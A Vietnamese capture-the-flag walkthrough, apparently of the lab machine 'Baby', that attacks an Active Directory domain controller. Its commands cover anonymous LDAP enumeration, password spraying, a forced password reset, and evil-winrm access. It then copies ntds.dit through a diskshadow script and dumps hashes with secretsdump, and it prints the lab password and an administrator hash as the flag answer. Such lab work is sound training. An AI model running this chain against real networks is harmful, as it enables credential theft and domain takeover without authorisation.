## Task 1


Chúng ta thực hiện quét thì được


> BabyDC.baby.vl
## Task 2


Thử sử dụng Anonymous query
```bash
ldapsearch -x -H ldap://10.129.73.211 -b "DC=baby,DC=vl" "(objectClass=user)" sAMAccountName description memberOf
```
Chúng ta sẽ thu được rất nhiều người dùng

Nhưng chỉ có một người dùng đáng chú ý
```
Teresa.Bell \ BabyStart123!
```

> Teresa.Bell
## Task 3



Chúng ta sẽ tìm giá trị người dùng và thực hiện pray nhưng thất bại, có lẻ chúng ta đã bỏ qua gì đó ... Tôi đã thử objectClass=user hoặc objectClass=person nhưng không thành công


Sau khi nhận ra chúng ta đang là Anonymous nên có thể một số attribute của người dùng không thể đọc được, tiến hành query rộng hơn
```bash
ldapsearch -x -H ldap://10.129.73.211 -b "DC=baby,DC=vl" "*" | grep dn
```
Lúc này chúng ta tìm thêm được 2 user 


Thực hiện spray với 2 user này
```
netexec smb 10.129.73.211 -u Caroline.Robinson Ian.Walker -p 'BabyStart123!' --continue-on-success
```



> Caroline.Robinson
## User Flag


Chúng ta thực hiện đổi mật khẩu cho người dùng này
```bash
smbpasswd -U BABY/caroline.robinson -r baby.vl
# Sử dụng password123!
```


Thực hiện đăng nhập bằng account
```bash
evil-winrm -i baby.vl -u caroline.robinson -p 'password123!'
```


## Task 5


Kiểm tra quyền của user này


> SeBackupPrivilege
## Task 6


> ntds.dit
## Task 7


Chúng ta làm lại tương tự như [9.Cicada](../00.Intro%20to%20Red%20Team/9.Cicada.md) ở Task 9. Chúng ta sẽ thu được kết quả

Thực hiện winrm với administrator và NTLM hash thu được nhưng thất bại. Khả năng phải lấy file ntds.dll về crack nữa

Trên máy attack chuẩn bị file cấu hình
```bash
cat << 'EOF' > backup.txt
set verbose on
set metadata C:\Windows\Temp\test.cab
set context persistent
add volume C: alias cdrive
create
expose %cdrive% E:
EOF

unix2dos backup.txt
```

Trên máy target
```powershell
upload backup.txt

diskshadow /s ./backup.txt

robocopy /b E:\Windows\ntds . ntds.dit
```



Chúng ta thực hiện crack lại một lần nữa
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```



> ee4457ae59f1e3fbd764e33d9cef123d
## Root Flag
Thực hiện winrm với administrator và NTLM hash thu được


